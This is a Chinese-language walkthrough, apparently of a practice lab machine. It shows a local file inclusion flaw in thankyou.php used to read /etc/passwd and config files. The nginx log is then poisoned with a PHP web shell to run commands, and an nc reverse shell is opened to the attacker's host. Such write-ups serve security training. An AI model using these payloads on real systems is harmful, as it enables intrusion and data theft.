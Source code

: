 ```text
000001716:   200        70 L     104 W    2319 Ch     "file - /etc/passwd"                                                                                                   
000001717:   200        70 L     104 W    2319 Ch     "file - /etc/passwd"                                                                                                   
000001719:   200        96 L     117 W    1558 Ch     "file - /etc/group"                                                                                                    
000001833:   500        38 L     58 W     786 Ch      "file - /etc/php5/apache2/php.ini"                                                                                     
000001844:   500        38 L     58 W     786 Ch      "file - /etc/php5/cgi/php.ini"                                                                                         
000001872:   200        170 L    590 W    4368 Ch     "file - /etc/mysql/my.cnf"                                                                                             
000001926:   200        65662    871324   9389548 C   "file - /var/log/nginx/access.log"
```

  

![](https://pic1.zhimg.com/80/v2-941b6b3663f4b39c7ac8c36b860dacf4_720w.webp)

  

随后我发现了它的一个日志文件里有我们的请求记录：

```text
http://192.168.1.144/thankyou.php?file=/var/log/nginx/access.log
```

  

![](https://pic4.zhimg.com/80/v2-d63b868e98c9485391d6baa541f7e457_720w.webp)

  

既然日志能记录我们的操作，那么我们就写入一句话到日志文件里吧：

```text
http://192.168.1.144/thankyou.php?file=<?php system($_GET['saul']) ?>
```

  

![](https://pic3.zhimg.com/80/v2-449325ba59a78c0e103f392a481166be_720w.webp)

  

(温馨提示：到这里我靶机重启了一下，所以 IP 变了)

接下来然后用日志文件去执行命令 `ls`：

```text
http://192.168.1.144/thankyou.php?file=/var/log/nginx/error.log&saul=ls
```

  

![](https://pic3.zhimg.com/80/v2-d448195d97f25ebdaec1c09a99e8a412_720w.webp)

  

成功执行命令！那么我就用 `nc` 反弹一个`shell`回来吧！先是 KALI `nc` 监听 `5555` 端口，然后访问得到一枚 `shell`：

```text
http://192.168.1.144/thankyou.php?file=/var/log/nginx/error.log&saul=nc -e /bin/bash 192.168.1.128 5555
```
